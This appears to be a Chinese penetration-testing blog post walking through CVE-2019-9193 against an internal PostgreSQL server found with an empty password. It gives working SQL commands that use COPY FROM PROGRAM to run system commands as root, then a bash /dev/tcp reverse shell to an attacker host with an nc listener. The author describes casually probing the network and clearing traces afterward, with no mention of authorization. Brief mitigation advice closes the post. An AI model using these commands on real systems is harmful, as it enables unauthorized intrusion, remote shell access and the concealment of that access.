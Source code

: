 ```yaml
---
title: PostgreSQL任意命令执行漏洞利用（CVE-2019-9193)
date: 2020-05-25 23:12:22
index_img: /img/pg.png
banner_img: /img/pg.png
tags:
  -  安全
categories:
  - 渗透测试
---
```


最近没事曰曰内网，偶然发现了一个使用空密码的pg（是的，连爆破都省了）。用navicat连上去看了下几个库都是一些业务测试数据，没什么好收集；不死心，google了一下发现有个比较新的CVE好像可以操作一下~

#### 漏洞概述
最近，安全研究人员披露了PostgreSQL实例代码执行漏洞（CVE-2019-9193）的漏洞细节。具有数据库 服务器 文件读取权限的攻击者可以利用此漏洞执行任意系统命令。

从9.3版本开始，Postgres新增了一个COPY TO/FROM PROGRAM功能，允许数据库的超级用户以及pg_read_server_files组中的任何用户执行操作系统命令。

**受影响的版本（貌似更新版本无解）

PostgreSQL> = 9.3**
#### 漏洞利用
##### pg数据库连接
```
# 连接postgressql，虽然是内网ip但还是打一下码吧
psql -U postgres -h 172.xx.xxx.xx
```
![image](/img/pg_res1.png)
##### 开始攻击（直接套用网上POC）
```
# 删除并创建用于保存系统命令执行结果的表 
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

# 命令执行测试，多试几条
COPY cmd_exec FROM PROGRAM 'id';
COPY cmd_exec FROM PROGRAM 'whoami';

# 查看结果
SELECT * FROM cmd_exec;
```
![image](/img/pg_res2.png)
我的🐎，还是个root用户，，都不用提权了（这安全意识阿。。。）

##### Getshell

虽然都可以执行系统命令了，拿不拿shell无所谓，但拿了还是要方便一些；
```
# attack机器上开启监听
nc -lvnp 8888

# 利用pg执行远程连接命令
COPY cmd_exec FROM PROGRAM 'bash -i >& /dev/tcp/attack_ip/8888 0>&1';
```
attack机器已经返回shell连接了~
![image](/img/pg_res3.png)

记录一下，顺便清除记录收工了。

#### 解决方案建议
1、pg_read_server_files，pg_write_server_files和pg_execute_server_program角色涉及读取和写入具有大权限的数据库服务器文件。将此角色权限分配给数据库用户时，应慎重考虑。

2、使用强密码！！！

3、进行网络隔离，只允许需要的IP连接；

[🔗知乎链接](https://zhuanlan.zhihu.com/p/143443516)
